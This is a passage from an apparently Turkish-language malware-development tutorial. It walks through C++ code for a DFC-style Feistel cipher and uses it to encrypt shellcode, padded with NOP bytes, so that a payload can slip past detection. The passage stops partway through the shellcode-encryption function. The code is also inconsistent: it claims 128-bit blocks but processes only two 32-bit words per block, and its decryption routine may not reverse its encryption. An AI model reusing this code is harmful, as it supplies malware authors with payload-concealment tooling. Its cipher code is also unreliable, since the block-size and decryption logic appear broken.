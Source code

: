 - Toplama işleminin sonucu `3` bit sola döndürülür (`rotl(..., 3)`). Bit döndürme işlemi, verinin genelinde bitlerin yayılmasını artırarak difüzyonu güçlendirir. `rotl` fonksiyonu, bitleri `3` pozisyon sola kaydırır ve sol uçtaki bitler sağ tarafa geri döner.   

- Son olarak, döndürme işleminin sonucu `key_part` ile `XOR` işlemine tabi tutulur. `XOR` işlemi, doğrusal olmayanlık ekler ve `key_part` veya `left` üzerindeki küçük değişikliklerin `F` fonksiyonunun çıktısında önemli değişikliklere neden olmasını sağlar.   

Sıradaki fonksiyon, blok şifreleme mantığını içeren fonksiyondur.   

`dfc_encrypt` fonksiyonu**, Feistel yapısı içinde `8 tur` boyunca şifreleme işlemi** gerçekleştirir. Her tur, anahtar planlamasından üretilen farklı bir tur anahtarını kullanır:    

```cpp
// DFC encryption function
void dfc_encrypt(uint32_t* block, uint8_t* key) {
  uint32_t left = block[0], right = block[1];

  // perform 8 rounds of encryption
  for (int i = 0; i < ROUNDS; i++) {
    G(&left, &right, K[i]);
  }

  // final left-right swap
  block[0] = right;
  block[1] = left;
}
```

Bu fonksiyon, giriş bloğundan `left` ve `right` değerlerini başlatır. Daha sonra, `8 tur` boyunca, her turun ilgili anahtarını kullanarak `G` fonksiyonunu `left` ve `right` üzerinde uygular. Son olarak, Feistel turunu tamamlamak ve bloğu güncellemek için `left` ve `right` değiştirir.

Şifre çözme fonksiyonu `dfc_decrypt`, şifreleme işlemine ayna tutar, ancak turlar ters sırayla uygulanır:      

```cpp
// DFC şifre çözme fonksiyonu
void dfc_decrypt(uint32_t* block, uint8_t* key) {
  uint32_t left = block[0], right = block[1];

  // Şifre çözme işlemi için 8 turu ters sırayla uygula
  for (int i = ROUNDS - 1; i >= 0; i--) {
    G(&left, &right, K[i]);
  }

  // Son olarak sol-sağ değişimi yap
  block[0] = right;
  block[1] = left;
}
```

Her zamanki gibi, `dfc_encrypt_shellcode`, shellcode'u şifreleme işlemine hazırlamak için padding uygular ve ardından her `128-bit` bloğu şifreler:

```cpp
// function to encrypt shellcode using DFC
void dfc_encrypt_shellcode(unsigned char* shellcode, int shellcode_len, 
uint8_t* key) {
  key_schedule(key);  // generate subkeys
  int i;
  uint32_t* ptr = (uint32_t*)shellcode;
  for (i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
    dfc_encrypt(ptr, key);
    ptr += 4;  // move to the next 128-bit block (4 * 32-bit words)
  }
  // handle remaining bytes by padding with 0x90 (NOP)
  int remaining = shellcode_len % BLOCK_SIZE;
  if (remaining != 0) {
```